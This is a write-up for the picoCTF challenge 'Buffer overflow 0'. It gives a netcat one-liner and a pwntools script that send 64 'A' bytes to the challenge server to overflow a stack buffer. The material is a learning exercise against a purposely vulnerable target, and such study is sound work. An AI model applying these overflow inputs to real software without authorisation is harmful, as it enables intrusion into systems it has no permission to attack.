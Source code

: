 # Buffer overflow 0
## Description
Smash the stack
Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here. And connect with it using: `nc saturn.picoctf.net 51532`

# Solution
There is two ways to solve this challenge, one is to use the terminal and the other is to use a script.

## Using netcat and terminal
Open the terminal and write the following command:
```bash
nc saturn.picoctf.net 51532 <<<  $(python -c 'print("A" * 64)')
```

## Using pwntools
```python
# import pwntools
from pwn import *

# open up remote connection
r = remote('saturn.picoctf.net', 51532)

# get to vulnerability
r.recvuntil(b"Input:")

# send string to print stack
r.sendline(b"A" * 64)

# print the response
print(r.recvline().decode())
```
